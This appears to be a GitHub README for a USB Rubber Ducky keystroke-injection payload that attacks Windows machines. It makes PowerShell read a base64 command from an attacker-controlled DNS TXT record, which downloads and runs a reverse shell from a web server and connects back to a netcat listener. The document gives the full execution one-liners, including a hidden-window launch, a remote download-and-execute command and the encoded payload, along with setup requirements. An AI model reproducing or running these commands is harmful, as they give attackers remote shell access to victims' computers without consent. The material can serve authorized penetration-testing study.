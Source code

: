 # DNS-TXT-CommandInection
Ducky Script uses Resolve-DnsName to perform a DNS name query resolution for a domain hosting a malicious TXT record.
## Description
A usb rubber ducky payload that leverages DNS TXT records to perform command injection. Windows Powershell is the CLI used by the payload. Replace the DNS TXT record for your domain with the base64 encoded payload you have. See link below for an example of creating your DNS TXT record in AWS Route53 service.
## Requirements
A domain with the ability to manipulate the DNS TXT records.
Web Server hosting the payload. In this example, python3 http.server was used to host a reverseshell.
A listener for incoming connections like netcat.
Provide URL used for Example
DEFINE  #MY_TARGET_URL example.com

## Notes
No base64 can be used as an option by replacing "$a=",";powershell -e $a" with just "|iex" for the STRING payload below. Examples of the decoded command and encoded command are shown below to put into DNS TXT record.
Decoded: "irm http://MY_TARGET_URL/T1.txt | iex"
Encoded: "aQByAG0AIABoAHQAdABwADoALwAvAGUAeABhAG0AcABsAGUALgBjAG8AbQAvAFQAMQAuAHQAeAB0ACAAfAAgAGkAZQB4AA=="
powershellReverseShellOne-liner.ps1 is identical to T1.txt. (file name shortened due to character limitations)
## Windows Commands (used in payload)
### Execute DNS TXT Payload
```Powershell
powershell /w 1 $a=(resolve-dnsname MY_TARGET_URL TXT).strings;powershell -e $a
```
### Execute web hosted Powershell Reverseshell
```Powershell
irm http://MY_TARGET_URL/T1.txt | iex
```
### [Powershell Reverseshell One-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)
```Powershell
.\powershellReverseShellOne-liner.ps1
```
### Convert payload to base64
```Powershell
.\convertBase64.ps1
```
### Alternative to executing Powershell Script
```Powershell
gc -raw .\convertBase64.ps1 | iex
```
### Links

[Powershell Reverseshell One-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)

[Convert to base64]([https://pypi.org/project/uploadserver/](https://github.com/nathansb2022/usbrubberducky-payloads/blob/master/payloads/library/execution/DNS-TXT-CommandInection/convertBase64.ps1))

[Create TXT record in AWS Route53](https://www.entrust.com/knowledgebase/ssl/how-to-create-a-txt-record-on-amazon-aws-route-53-for-entrust-email-validation-method)


